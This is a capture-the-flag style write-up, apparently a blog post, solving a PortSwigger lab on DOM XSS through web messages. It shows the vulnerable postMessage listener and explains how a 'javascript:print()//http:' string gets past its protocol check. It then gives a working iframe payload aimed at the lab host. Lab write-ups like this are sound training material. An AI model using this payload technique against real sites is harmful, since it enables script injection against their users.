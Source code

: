 ```yaml
---
layout: post
title:  "DOM XSS using web messages and a JavaScript URL"
date:   2024-11-19 10:20:54 +0530
categories: [BSCP, DOM Based]
---
```


## Objective 

This lab demonstrates a DOM-based redirection vulnerability that is triggered by web messaging. To solve this lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the `print()` function.

## Solution 

Just like the last lab on "DOM XSS using web message" we can look into the source of the page and we found the following javascript code 

```js
<script>
    window.addEventListener('message', function (e) {
        var url = e.data;

        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```

What the code does his, firstly listens for messages sent to the window using the postMessage API and then extracts the message... further more it checks whether any keywords or protocols like `http:` or `https:` matches then it passes through the `location.href` where it will get redirected 

Let's take the same payload like the last lab but instead off the `<img>` payload we can utilise like `javascript:print()//http:` where `http:` is valid and passes the check.. which will set the location header `javascript:print()` like `Location: javascript:print()` executes the `print()` function 

```js
<iframe src="https://0a40008104dba225824dca7000aa0069.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

Now, deliver the exploit to client using the exploit server and that solves the lab 

![]({{ site.baseurl }}/assets/images/dom/dom-1.png)